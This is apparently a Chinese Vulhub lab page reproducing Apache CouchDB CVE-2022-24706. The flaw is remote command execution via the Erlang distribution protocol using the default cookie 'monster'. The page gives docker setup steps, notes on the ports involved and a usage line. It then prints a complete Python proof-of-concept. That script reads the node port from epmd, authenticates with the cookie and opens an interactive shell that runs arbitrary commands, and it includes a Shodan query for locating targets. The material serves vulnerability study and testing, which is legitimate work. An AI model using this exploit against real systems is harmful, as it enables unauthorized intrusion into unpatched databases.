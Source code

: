 # Apache CouchDB 分布式协议代码执行 CVE-2022-24706

Apache CouchDB是一个Erlang开发的NoSQL数据库。

由于Erlang的特性，其支持分布式计算，分布式节点之间通过Erlang/OTP Distribution协议进行通信。攻击者如果知道通信时使用的Cookie，即可在握手包通过认证并执行任意命令。

在CouchDB 3.2.1及以前版本中，使用了默认Cookie，值为“monster”。

参考链接：

- https://docs.couchdb.org/en/3.2.2-docs/cve/2022-24706.html
- https://insinuator.net/2017/10/erlang-distribution-rce-and-a-cookie-bruteforcer/
- https://github.com/rapid7/metasploit-framework/blob/master//modules/exploits/multi/misc/erlang_cookie_rce.rb
- https://github.com/sadshade/CVE-2022-24706-CouchDB-Exploit

## 漏洞环境

Vulhub执行如下命令启动一个Apache CouchDB 3.2.1服务：

```
docker-compose up -d
```

服务启动后，会监听三个端口：

- 5984: Apache CouchDB Web管理接口
- 4369: Erlang端口映射服务（epmd）
- 9100: 集群节点通信和运行时自省服务（代码执行实际发生在这个端口中）

其中，Web管理接口和epmd服务端口是固定的，而集群通信接口在Vulhub中是9100。实际环境下，这个端口通常是随机的，我们可以通过epmd服务来获取这个端口的数值。

## 漏洞复现

我们可以使用[这个POC](https://github.com/vulhub/vulhub/blob/master/couchdb/CVE-2022-24706/poc.py)来利用本漏洞。这个POC会先通过目标的4369端口epmd服务获取集群通信的端口，也就是9100，然后再使用默认Cookie来控制节点执行任意命令。

```
python poc.py target-ip 4369
```

![image-20221125163205330](images/202211251632392.png)

## 漏洞POC

- https://github.com/vulhub/vulhub/blob/master/couchdb/CVE-2022-24706/poc.py

```python
# Exploit Title: Remote Command Execution via Erlang Distribution Protocol 
# Date: 2022-01-21
# Exploit Author: Konstantin Burov, @_sadshade
# Software Link: https://www.erlang.org/doc/apps/erts/erl_dist_protocol.html
# Version: N/A
# Tested on: Kali 2021.2
# Based on 1F98D's Erlang Cookie - Remote Code Execution
# Shodan: port:4369 "name "
# References:
#  https://www.exploit-db.com/exploits/49418
#  https://insinuator.net/2017/10/erlang-distribution-rce-and-a-cookie-bruteforcer/
#  https://book.hacktricks.xyz/pentesting/4369-pentesting-erlang-port-mapper-daemon-epmd#erlang-cookie-rce
# 
#
#!/usr/local/bin/python3

import socket
from hashlib import md5
import struct
import sys
import re
import time

TARGET = sys.argv[1]
EPMD_PORT = int(sys.argv[2]) # Default Erlang distributed port
COOKIE = "monster" # Default Erlang cookie for CouchDB 
ERLNAG_PORT = 0
EPM_NAME_CMD = b"\x00\x01\x6e" # Request for nodes list

# Some data:
NAME_MSG  = b"\x00\x15n\x00\x05\x00\x07\x49\x9cAAAAAA@AAAAAAA"
CHALLENGE_REPLY = b"\x00\x15r\x01\x02\x03\x04"
CTRL_DATA  = b"\x83h\x04a\x06gw\x0eAAAAAA@AAAAAAA\x00\x00\x00\x03"
CTRL_DATA += b"\x00\x00\x00\x00\x00w\x00w\x03rex"


def compile_cmd(CMD):
    MSG  = b"\x83h\x02gw\x0eAAAAAA@AAAAAAA\x00\x00\x00\x03\x00\x00\x00"
    MSG += b"\x00\x00h\x05w\x04callw\x02osw\x03cmdl\x00\x00\x00\x01k"
    MSG += struct.pack(">H", len(CMD))
    MSG += bytes(CMD, 'ascii')
    MSG += b'jw\x04user'
    PAYLOAD = b'\x70' + CTRL_DATA + MSG
    PAYLOAD = struct.pack('!I', len(PAYLOAD)) + PAYLOAD
    return PAYLOAD

print("Remote Command Execution via Erlang Distribution Protocol.\n")

# Connect to EPMD:
try:
    epm_socket = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    epm_socket.connect((TARGET, EPMD_PORT))
except socket.error as msg:
    print("Couldnt connect to EPMD: %s\n terminating program" % msg)
    sys.exit(1)
    
epm_socket.send(EPM_NAME_CMD) #request Erlang nodes
if epm_socket.recv(4) == b'\x00\x00\x11\x11': # OK
    data = epm_socket.recv(1024)
    data = data[0:len(data) - 1].decode('ascii')
    data = data.split("\n")
    if len(data) == 1:
        choise = 1
        print("Found " + data[0])
    else:
        print("\nMore than one node found, choose which one to use:")
        line_number = 0
        for line in data:
            line_number += 1
            print(" %d) %s" %(line_number, line))
        choise = int(input("\n> "))
        
    ERLNAG_PORT = int(re.search("\d+$",data[choise - 1])[0])
else:
    print("Node list request error, exiting")
    sys.exit(1)
epm_socket.close()

# Connect to Erlang port:
try:
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((TARGET, ERLNAG_PORT))
except socket.error as msg:
    print("Couldnt connect to Erlang server: %s\n terminating program" % msg)
    sys.exit(1)
   
s.send(NAME_MSG)
s.recv(5)
challenge = s.recv(1024)     # Receive "challenge" message
print(challenge)
challenge = struct.unpack(">I", challenge[9:13])[0]

#print("Extracted challenge: {}".format(challenge))

# Add Challenge Digest
CHALLENGE_REPLY += md5(bytes(COOKIE, "ascii")
    + bytes(str(challenge), "ascii")).digest()
s.send(CHALLENGE_REPLY)
CHALLENGE_RESPONSE = s.recv(1024)

if len(CHALLENGE_RESPONSE) == 0:
    print("Authentication failed, exiting")
    sys.exit(1)

print("Authentication successful")
print("Enter command:\n")

data_size = 0
while True:
    if data_size <= 0:
        CMD = input("> ")
        if not CMD:
            continue
        elif CMD == "exit":
            sys.exit(0)
        s.send(compile_cmd(CMD))
        data_size = struct.unpack(">I", s.recv(4))[0] # Get data size
        s.recv(45)              # Control message
        data_size -= 45         # Data size without control message
        time.sleep(0.1)
    elif data_size < 1024:        
        data = s.recv(data_size)
        #print("S---data_size: %d, data_recv_size: %d" %(data_size,len(data)))
        time.sleep(0.1)
        print(data[3:].decode())
        data_size = 0
    else:        
        data = s.recv(1024)
        #print("L---data_size: %d, data_recv_size: %d" %(data_size,len(data)))
        time.sleep(0.1)
        print(data[4:].decode())
        data_size -= 1024
```
